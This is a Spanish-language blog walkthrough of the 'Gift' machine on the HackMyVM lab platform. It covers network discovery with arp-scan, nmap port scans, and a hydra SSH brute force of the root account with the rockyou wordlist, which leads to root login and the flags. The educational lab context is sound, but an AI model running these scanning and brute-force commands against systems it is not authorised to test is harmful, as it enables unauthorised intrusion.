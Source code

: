 ```yaml
---
title:      "Gift"
excerpt:    "Comenzamos el blog resolviendo la primera máquina easy subida a la plataforma de HackMyVM. El creador nos indica en la descripción que es very easy, un regalo, lo comprobaremos... 😁"
toc:        true
toc_label:  "Tabla de contenidos"
toc_icon:   "key"
header:
  teaser: /assets/images/Gift/prev.png
  teaser_home_page: true
  icon: /assets/images/HMV.png
classes     : wide
categories:
  - HackMyVM
tags:  
  - Easy
  - Linux
  - Brute force
---
```


![](/assets/images/Gift/prev.png){: .align-center}

Comenzamos el blog resolviendo la primera máquina easy subida a la plataforma de HackMyVM. El creador nos indica en la descripción que es "very easy", un "regalo", lo comprobaremos... 😁


## Reconocimiento de Puertos

Comenzamos averiguando la IP de la máquina víctima:

`❯ sudo arp-scan -l | grep "PCS"`
~~~
192.168.0.25   08:00:27:c7:3f:a9 PCS Systemtechnik GmbH
~~~

Ahora realizamos el reconocimiento de puertos abiertos:

`❯ sudo nmap -p- -sS --min-rate 5000 --open -Pn -vvv -n 192.168.0.25`
~~~
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
~~~

Tenemos dos puertos abiertos, el puerto 22 (SSH) y el puerto 80 (HTTP).

Realizamos un escaneo más avanzado para obtener más información sobre estos puertos.

`❯ nmap -sCV -p22,80 192.168.0.25`
~~~
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.3 (protocol 2.0)
| ssh-hostkey: 
|   3072 2c:1b:36:27:e5:4c:52:7b:3e:10:94:41:39:ef:b2:95 (RSA)
|   256 93:c1:1e:32:24:0e:34:d9:02:0e:ff:c3:9c:59:9b:dd (ECDSA)
|_  256 81:ab:36:ec:b1:2b:5c:d2:86:55:12:0c:51:00:27:d7 (ED25519)
80/tcp open  http    nginx
|_http-title: Site doesn't have a title (text/html).
~~~

Comprobamos qué contenido muestra el puerto 80:

`❯ curl -L http://192.168.0.25`
~~~
Dont Overthink. Really, Its simple.
   <!-- Trust me -->
~~~

> No parece ir la cosa por ahí, así que según esa pista trataremos de seguir por el otro puerto, SSH


## Fuerza bruta

Aplicaremos fuerza bruta sobre el usuario root por SSH:

`❯ hydra -l root 192.168.0.25 -P /usr/share/wordlists/rockyou.txt ssh`
~~~
[STATUS] 178.00 tries/min, 178 tries in 00:01h, 14344223 to do in 1343:06h, 16 active
 [22][ssh] host: 192.168.0.25   login: root   password: simple
~~~

> BINGO, tenemos acceso vía SSH como root


`ssh root@192.168.0.25`

~~~
IM AN SSH SERVER
gift:~# ls
root.txt  user.txt
~~~

Y ahí tenemos las 2 flags, con las que concluimos esta primera máquina.

